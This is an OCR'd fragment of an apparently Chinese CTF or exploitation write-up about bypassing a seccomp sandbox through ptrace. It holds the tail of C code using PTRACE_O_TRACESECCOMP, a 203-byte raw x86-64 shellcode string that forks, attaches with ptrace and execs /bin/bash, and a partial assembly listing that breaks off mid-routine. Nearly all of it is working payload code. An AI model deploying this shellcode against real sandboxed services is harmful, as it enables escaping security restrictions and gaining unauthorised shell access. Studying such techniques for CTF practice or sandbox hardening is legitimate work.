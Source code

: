 ```c
            syscall(SYS_ptrace,PTRACE_SETOPTIONS,pid,0,PTRACE_O_TRACESECCOMP);
            // 使子进程继续执行，并且此时没有了seccomp的检测，即成功绕过seccomp
            syscall(SYS_ptrace,PTRACE_CONT,pid,0,0);
        }
    }
}
```
编写成shellcode如下,去掉了中间用write输出的提示信息,长度为203字节
```python
b'H\xc7\xc09\x00\x00\x00\x0f\x05H\x85\xc0\x0f\x88\xad\x00\x00\x00H\x83\xf8\x00tiI\x89\xc0L\x89\xc6H\xc7\xc0e\x00\x00\x00H\xc7\xc7\x10\x00\x00\x00H1\xd2M1\xd2\x0f\x05L\x89\xc7H1\xf6H1\xd2M1\xd2H\xc7\xc0=\x00\x00\x00\x0f\x05H\xc7\xc7\x00B\x00\x00L\x89\xc6H1\xd2I\xc7\xc2\x80\x00\x00\x00H\xc7\xc0e\x00\x00\x00\x0f\x05H\xc7\xc7\x07\x00\x00\x00L\x89\xc6H1\xd2M1\xd2H\xc7\xc0e\x00\x00\x00\x0f\x05\xeb\xb3j\x00j\x01H\x89\xe7H1\xf6H\xc7\xc0#\x00\x00\x00\x0f\x05H\xc7\xc0h\x00\x00\x00PH\xb8/bin/basPH\x89\xe7H\xc7\xc6\x00\x00\x00\x00H1\xd2H\xc7\xc0;\x00\x00\x00\x0f\x05\xeb\xc2H\xc7\xc0<\x00\x00\x00H1\xff\x0f\x05'
```
汇编也放一下
```x86asm
_start:
    /* fork() */
    mov rax,57
    syscall

    /* if(pid<0) exit(0) */
    test rax,rax
    js _exit

    /* if(pid==0) */
    cmp rax,0
    je child_process

parent_process:
    /* save pid with r8 */
    mov r8,rax
    mov rsi,r8

    /* ptrace(PTRACE_ATTACH,pid,0,0); */
    mov rax,101
    mov rdi,0x10
    xor rdx,rdx
    xor r10,r10
    syscall

monitor_child:
    /* wait4(pid,0,0,0); */
    mov rdi,r8
    xor rsi,rsi
    xor rdx,rdx
    xor r10,r10
    mov rax,61
    syscall

    /* ptrace(PTRACE_SETOPTIONS, child_pid, 0, PTRACE_O_TRACESECCOMP) */
    mov rdi,0x4200 /* PTRACE_SETOPTIONS */
    mov rsi,r8
    xor rdx,rdx
    mov r10,0x00000080 /* PTRACE_O_TRACESECCOMP */
    mov rax,101
    syscall

    /* ptrace(PTRACE_CONT,pid,0,0) */
    mov rdi,0x7
    mov rsi,r8
```